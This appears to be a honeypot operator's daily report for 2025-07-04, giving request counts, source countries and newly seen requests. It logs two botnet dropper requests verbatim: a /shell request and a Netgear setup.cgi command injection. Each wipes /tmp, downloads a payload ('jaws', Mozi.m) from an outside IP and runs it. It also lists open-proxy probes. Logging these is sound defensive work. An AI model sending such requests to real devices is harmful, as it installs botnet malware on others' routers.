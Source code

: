 ```yaml
---
title: "Report: 2025-07-04 "
date: 2025-07-04
desciption: "Report: 2025-07-04" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-04 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 15 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 759 requests were recorded during the day, originating from 2 different countries, with a peak of 285 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 47.101.204.123 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                |
| 36.255.4.164   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://36.255.4.164:52815/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
| 188 |                     1 | GET /shell?uname%20-a HTTP/1.1                                |
| 215 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00checkip.amazonaws.com\x00 |
| 216 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00ipinfo.io\x00             |
| 217 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00ip.seeip.org\x00          |
| 218 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00api.myip.com\x00          |
| 220 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00ipv4.icanhazip.com\x00    |
| 221 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00ifconfig.me\x00           |
| 222 |                     1 | \x04\x01\x01\xBB\x00\x00\x00\x01\x00httpbin.org\x00           |
| 223 |                     1 | CONNECT checkip.amazonaws.com:443 HTTP/1.0                    |
| 224 |                     1 | CONNECT httpbin.org:443 HTTP/1.0                              |
| 226 |                     1 | CONNECT ip.seeip.org:443 HTTP/1.0                             |
| 227 |                     1 | CONNECT ifconfig.me:443 HTTP/1.0                              |
| 228 |                     1 | CONNECT ipinfo.io:443 HTTP/1.0                                |
| 229 |                     1 | CONNECT api.myip.com:443 HTTP/1.0                             |
| 230 |                     1 | CONNECT ipv4.icanhazip.com:443 HTTP/1.0                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   285 | US                 |
|  1 |                    96 | HK                 |
|  2 |                    40 | BG                 |
|  3 |                    36 | CA                 |
|  4 |                    34 | GB                 |
|  5 |                    32 | JP                 |
|  6 |                    30 | NL                 |
|  7 |                    29 | DE                 |
|  8 |                    27 | VN                 |
|  9 |                    15 | SC                 |
| 10 |                    13 | ZA                 |
| 11 |                    11 | AU                 |
| 12 |                    10 | GH                 |
| 13 |                     8 | BR                 |
| 14 |                     7 | SG                 |
| 15 |                     7 | IN                 |
| 16 |                     7 | LT                 |
| 17 |                     6 | IL                 |
| 18 |                     6 | PL                 |
| 19 |                     6 | AO                 |
| 20 |                     6 | CN                 |
| 21 |                     5 | FR                 |
| 22 |                     4 | BE                 |
| 23 |                     4 | EE                 |
| 24 |                     3 | UA                 |
| 25 |                     3 | ES                 |
| 26 |                     3 | KR                 |
| 27 |                     3 | KZ                 |
| 28 |                     2 | MU                 |
| 29 |                     2 | RO                 |
| 30 |                     2 | IE                 |
| 31 |                     2 | KW                 |
| 32 |                     2 | MY                 |
| 33 |                     2 | MM                 |
| 34 |                     2 | TW                 |
| 35 |                     2 | RU                 |
| 36 |                     2 | SE                 |
| 37 |                     1 | HU                 |
| 38 |                     1 | GE                 |
| 39 |                     1 | AZ                 |
| 40 |                     1 | CO                 |
| 41 |                     1 | IR                 |
